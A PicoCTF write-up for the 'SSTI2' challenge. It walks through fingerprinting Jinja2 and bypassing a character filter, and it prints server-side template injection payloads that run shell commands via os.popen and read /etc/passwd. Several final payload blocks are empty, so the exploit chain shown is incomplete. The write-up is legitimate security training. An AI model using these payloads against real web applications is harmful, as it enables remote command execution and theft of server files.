

# SSTI2 - CTF Writeup

## 📌 Overview

- **Platform:** PicoCTF
- **Difficulty:** Medium
- **Objective:** Exploit an SSTI vulnerability with input filtering and retrieve the flag.


## 🔍 Enumeration

The target exposed a web form that reflected user input through a template engine:

```python
<!doctype html>
<title>SSTI2</title>

<h1> Home </h1>

<p> I built a cool website that lets you announce whatever you want!* </p>

<form action="/" method="POST">
What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
</form>

<p style="font-size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

I used this repository as a reference during testing:

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

First, I sent the SSTI polyglot payload:

```text
${{<%[%'"}}%\.
```

Response:

```python
<!doctype html>
<h1 style="font-size:100px;" align="center">Stop trying to break me >:(</h1
```

This confirmed filtering behavior.

I then tested template fingerprints:

```python
{{7*7}} -> 49
#{7*7} -> #{7*7}
```

This identified Jinja2 as the active template engine.

## 💥 Exploitation

I first tried the payload used in SSTI1:

```python
{{url_for.__globals__.os.popen('id').read()}} -> blocked
```

Then I attempted alternative Jinja2 primitives:

```python
# From a class to access the class "object".
{{dict.__base__}} -> <class 'dict'>
{{{{ dict.__base__.__subclasses__() }}}} -> Blocked

# Trying to read files
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }} -> blocked
```

I tested URL encoding strategies:

```python
# encoding
{{url_for.__globals__.os.popen('id').read()}} ->  %7B%7Burl%5Ffor%2E%5F%5Fglobals%5F%5F%2Eos%2Epopen('id')%2Eread()%7D%7D

# testing
%7B%7Burl%5Ffor%2E%5F%5Fglobals%5F%5F%2Eos%2Epopen('id')%2Eread()%7D%7D -> returns it self

# lets just encode '} and {'
%7B%7Burl_for.__globals__.os.popen('id').read()%7D%7D -> returns it self
```

Because `{{7*7}}` executed successfully, I inferred that `{` and `}` were not blocked, so I encoded only other characters:

```python
{{url%5Ffor%2E%5F%5Fglobals%5F%5F%2Eos%2Epopen('id')%2Eread()}} -> blocked

# double encoding
{{url%5Ffor%2E%5F%5Fglobals%5F%5F%2Eos%2Epopen('id')%2Eread()}} -> blocked
```

I pivoted to statement tags (``):

```python
# Simple statement-tag primitives
 -> 1
OK -> OK

# since it was not blocked lets try executing a command with the same logic
yes -> BLOCKED
 -> <class 'jinja2.utils.Namespace'>

# print worked so lest try
 -> BLOCKED
 -> blocked
 -> blocked
 -> blocked
```

I then used a payload that avoids blocked characters such as `{{`, `.`, `[`, `]`, `}}`, and `_`:

```python

```

Response:

```python
total 12
drwxr-xr-x 2 root root 32 Jul 15 14:51 __pycache__
-rwxr-xr-x 1 root root 1841 May 1 2025 app.py
-rw-r--r-- 1 root root 36 Aug 21 2025 flag
-rwxr-xr-x 1 root root 268 May 1 2025 requirements.txt
```

I replaced `ls${IFS}-l` with `cat${IFS}flag`:

```python

```

Flag:

```python
<flag>
```


## Attack Flow



## 🧠 Lessons Learned

- Blacklist-based input filtering can still be bypassed in Jinja2 through alternative syntax and attribute-based access.
- Statement tags (``) may remain exploitable even when expression tags are partially filtered.
- Character-encoding trials help validate what is actually filtered versus what simply fails at parsing or rendering.

## 🧩 Tools Used

- Browser (manual interaction with the target web page)
- PayloadsAllTheThings (SSTI payload reference)

## ⚠️ Notes

- The challenge behavior indicates selective filtering rather than a secure sandbox.
- The final payload relied on `attr()` chaining and hex-escaped underscores to bypass restrictions.
